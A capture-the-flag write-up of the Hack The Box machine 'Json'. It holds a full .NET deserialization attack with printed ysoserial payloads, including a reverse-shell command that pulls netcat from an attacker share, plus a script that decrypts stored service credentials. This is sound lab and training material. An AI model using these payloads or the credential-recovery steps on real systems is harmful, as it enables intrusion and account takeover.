






# Json
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.158 -T4   
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-07 20:02 BST
Stats: 0:03:53 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 45.70% done; ETC: 20:10 (0:04:37 remaining)
Nmap scan report for 10.10.10.158 (10.10.10.158)
Host is up (0.12s latency).
Not shown: 65521 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown
49158/tcp open  unknown

```
```
└─$ nmap -Pn -p21,80,135,139,445,5985 -sC -sV 10.10.10.158                                 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-07 20:02 BST
Nmap scan report for 10.10.10.158 (10.10.10.158)
Host is up (0.13s latency).

PORT     STATE SERVICE      VERSION
21/tcp   open  ftp          FileZilla ftpd
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
80/tcp   open  http         Microsoft IIS httpd 8.5
|_http-title: Json HTB
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-09-07T19:02:11
|_  start_date: 2023-09-07T18:55:22
|_clock-skew: mean: -36s, deviation: 0s, median: -36s
| smb2-security-mode: 
|   3:0:2: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: JSON, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:fb:43 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.86 seconds
```
- `smb`
```
└─$ smbclient -N -L //10.10.10.158                                                    
session setup failed: NT_STATUS_ACCESS_DENIED
```

- Web server



- `ftp`
```
└─$ ftp anonymous@10.10.10.158                       
Connected to 10.10.10.158.
220-FileZilla Server 0.9.60 beta
220-written by Tim Kosse (tim.kosse@filezilla-project.org)
220 Please visit https://filezilla-project.org/
331 Password required for anonymous
Password: 
530 Login or password incorrect!
ftp: Login failed
```
## Foothold
- We have bunch of `404` status codes



- Looks like we can also enumerate users


- We also have an obfuscated `js` file


- We can also try deobfuscating it
  - But trying `admin:admin` on login page worked
  - And we're in



- We see the request is sent to `/api/token`
  - And we have `OAuth2` cookie in `base64`
    - `{"Id":1,"UserName":"admin","Password":"21232f297a57a5a743894a0e4a801fc3","Name":"User Admin HTB","Rol":"Administrator"}`


- We also have another `api` request to `Account`
  - We have both `OAuth2` and `Bearer` headers set to the same value



- If we change the value of the `OAuth2`, we have the result
  - But when we change the value of the `Bearer`, we have a `deserialization` error


- We can try [ysoserial.net](https://github.com/pwntester/ysoserial.net)
  - https://book.hacktricks.xyz/pentesting-web/deserialization/basic-.net-deserialization-objectdataprovider-gadgets-expandedwrapper-and-json.net
  - Generate a payload
    - Modify the `Bearer` and send the request
  - And we have a connection

```
D:\Tools\ysoserial-1.35\Release>ysoserial.exe -g ObjectDataProvider -f Json.Net -c "ping 10.10.16.9" -o base64
ew0KICAgICckdHlwZSc6J1N5c3RlbS5XaW5kb3dzLkRhdGEuT2JqZWN0RGF0YVByb3ZpZGVyLCBQcmVzZW50YXRpb25GcmFtZXdvcmssIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj0zMWJmMzg1NmFkMzY0ZTM1JywgDQogICAgJ01ldGhvZE5hbWUnOidTdGFydCcsDQogICAgJ01ldGhvZFBhcmFtZXRlcnMnOnsNCiAgICAgICAgJyR0eXBlJzonU3lzdGVtLkNvbGxlY3Rpb25zLkFycmF5TGlzdCwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5JywNCiAgICAgICAgJyR2YWx1ZXMnOlsnY21kJywgJy9jIHBpbmcgMTAuMTAuMTYuOSddDQogICAgfSwNCiAgICAnT2JqZWN0SW5zdGFuY2UnOnsnJHR5cGUnOidTeXN0ZW0uRGlhZ25vc3RpY3MuUHJvY2VzcywgU3lzdGVtLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OSd9DQp9
```



- Now let's get a reverse shell

```
D:\Tools\ysoserial-1.35\Release>ysoserial.exe -g ObjectDataProvider -f Json.Net -c "\\10.10.16.9\share\nc64.exe 10.10.16.9 6666 -e cmd.exe" -o base64
ew0KICAgICckdHlwZSc6J1N5c3RlbS5XaW5kb3dzLkRhdGEuT2JqZWN0RGF0YVByb3ZpZGVyLCBQcmVzZW50YXRpb25GcmFtZXdvcmssIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj0zMWJmMzg1NmFkMzY0ZTM1JywgDQogICAgJ01ldGhvZE5hbWUnOidTdGFydCcsDQogICAgJ01ldGhvZFBhcmFtZXRlcnMnOnsNCiAgICAgICAgJyR0eXBlJzonU3lzdGVtLkNvbGxlY3Rpb25zLkFycmF5TGlzdCwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5JywNCiAgICAgICAgJyR2YWx1ZXMnOlsnY21kJywgJy9jIFxcXFwxMC4xMC4xNi45XFxzaGFyZVxcbmM2NC5leGUgMTAuMTAuMTYuOSA2NjY2IC1lIGNtZC5leGUnXQ0KICAgIH0sDQogICAgJ09iamVjdEluc3RhbmNlJzp7JyR0eXBlJzonU3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MsIFN5c3RlbSwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODknfQ0KfQ==
```



## Root
- We have another user `superadmin`
```
c:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AEF2-0DF2

 Directory of c:\Users

03/17/2021  11:00 AM    <DIR>          .
03/17/2021  11:00 AM    <DIR>          ..
05/22/2019  04:52 PM    <DIR>          .NET v2.0
05/22/2019  04:52 PM    <DIR>          .NET v2.0 Classic
05/22/2019  04:52 PM    <DIR>          .NET v4.5
05/22/2019  04:52 PM    <DIR>          .NET v4.5 Classic
03/17/2021  11:01 AM    <DIR>          Administrator
05/22/2019  04:52 PM    <DIR>          Classic .NET AppPool
08/22/2013  11:39 AM    <DIR>          Public
05/22/2019  05:37 PM    <DIR>          superadmin
05/22/2019  05:07 PM    <DIR>          userpool
               0 File(s)              0 bytes
              11 Dir(s)   4,666,466,304 bytes free
```

-  `superadmin` is a member of `Administrators` group
```
c:\Users>net user superadmin
net user superadmin
User name                    superadmin
Full Name                    
Comment                      
User's comment               
Country/region code          001 (United States)
Account active               Yes
Account expires              Never

Password last set            5/22/2019 3:25:00 PM
Password expires             Never
Password changeable          5/22/2019 3:25:00 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   9/9/2023 6:07:13 AM

Logon hours allowed          All

Local Group Memberships      *Administrators       *Users                
Global Group memberships     *None                 
The command completed successfully.
```

- We also have `SeImpersonatePrivilege`, so we can use one of `Potato` escalation techniques
  - https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/juicypotato
```
c:\Users>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

- We also have `Sync2Ftp`
```
c:\Program Files\Sync2Ftp>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AEF2-0DF2

 Directory of c:\Program Files\Sync2Ftp

05/23/2019  03:06 PM    <DIR>          .
05/23/2019  03:06 PM    <DIR>          ..
05/23/2019  02:48 PM             9,728 SyncLocation.exe
05/23/2019  03:08 PM               591 SyncLocation.exe.config
               2 File(s)         10,319 bytes
               2 Dir(s)   4,666,445,824 bytes free

c:\Program Files\Sync2Ftp>type SyncLocation.exe.config
type SyncLocation.exe.config
<?xml version="1.0" encoding="utf-8" ?>
<configuration>
  <appSettings>
    <add key="destinationFolder" value="ftp://localhost/"/>
    <add key="sourcefolder" value="C:\inetpub\wwwroot\jsonapp\Files"/>
    <add key="user" value="4as8gqENn26uTs9srvQLyg=="/>
    <add key="minute" value="30"/>
    <add key="password" value="oQ5iORgUrswNRsJKH9VaCw=="></add>
    <add key="SecurityKey" value="_5TL#+GWWFv6pfT3!GXw7D86pkRRTv+$$tk^cL5hdU%"/>
  </appSettings>
  <startup>
    <supportedRuntime version="v4.0" sku=".NETFramework,Version=v4.7.2" />
  </startup>


</configuration>

```

- Decoding to decode from `base64` results in binary stuff
  - It's a `.Net` executable
  - Let's open it in `dnspy`
```
└─$ file SyncLocation.exe            
SyncLocation.exe: PE32 executable (GUI) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections
```


- The password and user are decrypted using `Crypto.Decrypt` function


- If we look at the function we see that
  - The value is decode from `base64`
  - THe `key` is a `md5sum` of `SecurityKey` value
  - Then the password is decrypted using the `Triple DES` algorithm (`ECB` mode)


- Let's decrypt
```
import base64
import hashlib
from Crypto.Cipher import DES3

def decrypt(value, secret_key):
  ct = base64.b64decode(value)
  key = hashlib.md5(secret_key).digest()
  des = DES3.new(key, DES3.MODE_ECB)
  return des.decrypt(ct).decode()

user = "4as8gqENn26uTs9srvQLyg=="
password = "oQ5iORgUrswNRsJKH9VaCw=="
secret_key = b"_5TL#+GWWFv6pfT3!GXw7D86pkRRTv+$$tk^cL5hdU%"

print(f"Username: {decrypt(user, secret_key)}")
print(f"Password: {decrypt(password, secret_key)}")
```

```
└─$ python3 DES-decrypt.py
Username: superadmin
Password: funnyhtb

```

- But they don't work for `winrm` and `psexec`
```
└─$ crackmapexec winrm 10.10.10.158 -u superadmin -p funnyhtb
SMB         10.10.10.158    5985   JSON             [*] Windows 6.3 Build 9600 (name:JSON) (domain:json)
HTTP        10.10.10.158    5985   JSON             [*] http://10.10.10.158:5985/wsman
WINRM       10.10.10.158    5985   JSON             [-] json\superadmin:funnyhtb
```
```
└─$ impacket-psexec superadmin@10.10.10.158                                  
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] Requesting shares on 10.10.10.158.....
[-] share 'ADMIN$' is not writable.
[-] share 'C$' is not writable.
```

- But they work for `ftp`
  - And we have a full disk access to `Administrator` folder
```
└─$ ftp superadmin@10.10.10.158 
Connected to 10.10.10.158.
220-FileZilla Server 0.9.60 beta
220-written by Tim Kosse (tim.kosse@filezilla-project.org)
220 Please visit https://filezilla-project.org/
331 Password required for superadmin
Password: 
230 Logged on
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||56772|)
150 Opening data channel for directory listing of "/"
drwxr-xr-x 1 ftp ftp              0 May 22  2019 AppData
drwxr-xr-x 1 ftp ftp              0 May 22  2019 Application Data
drwxr-xr-x 1 ftp ftp              0 May 22  2019 Contacts
drwxr-xr-x 1 ftp ftp              0 May 22  2019 Cookies
drwxr-xr-x 1 ftp ftp              0 Mar 17  2021 Desktop
drwxr-xr-x 1 ftp ftp              0 May 22  2019 Documents
drwxr-xr-x 1 ftp ftp              0 May 22  2019 Downloads
drwxr-xr-x 1 ftp ftp              0 May 22  2019 Favorites
drwxr-xr-x 1 ftp ftp              0 May 22  2019 Links
drwxr-xr-x 1 ftp ftp              0 May 22  2019 Local Settings
drwxr-xr-x 1 ftp ftp              0 May 22  2019 Music
drwxr-xr-x 1 ftp ftp              0 May 22  2019 My Documents
drwxr-xr-x 1 ftp ftp              0 May 22  2019 NetHood
-r--r--r-- 1 ftp ftp         524288 Sep 09 06:07 NTUSER.DAT
-r--r--r-- 1 ftp ftp           8192 May 22  2019 ntuser.dat.LOG1
-r--r--r-- 1 ftp ftp         122880 May 22  2019 ntuser.dat.LOG2
-r--r--r-- 1 ftp ftp          65536 May 22  2019 NTUSER.DAT{a8bf096c-714a-11e4-80c0-a4badb286356}.TM.blf
-r--r--r-- 1 ftp ftp         524288 May 22  2019 NTUSER.DAT{a8bf096c-714a-11e4-80c0-a4badb286356}.TMContainer00000000000000000001.regtrans-ms
-r--r--r-- 1 ftp ftp         524288 May 22  2019 NTUSER.DAT{a8bf096c-714a-11e4-80c0-a4badb286356}.TMContainer00000000000000000002.regtrans-ms
-r--r--r-- 1 ftp ftp             20 May 22  2019 ntuser.ini
drwxr-xr-x 1 ftp ftp              0 May 22  2019 Pictures
drwxr-xr-x 1 ftp ftp              0 May 22  2019 PrintHood
drwxr-xr-x 1 ftp ftp              0 May 22  2019 Recent
drwxr-xr-x 1 ftp ftp              0 May 22  2019 Saved Games
drwxr-xr-x 1 ftp ftp              0 May 22  2019 Searches
drwxr-xr-x 1 ftp ftp              0 May 22  2019 SendTo
drwxr-xr-x 1 ftp ftp              0 May 22  2019 Start Menu
drwxr-xr-x 1 ftp ftp              0 May 22  2019 Templates
drwxr-xr-x 1 ftp ftp              0 May 22  2019 Videos
226 Successfully transferred "/"
ftp> 

```

- I got the `root` flag, so in order to get `RCE`, we should use `Potato`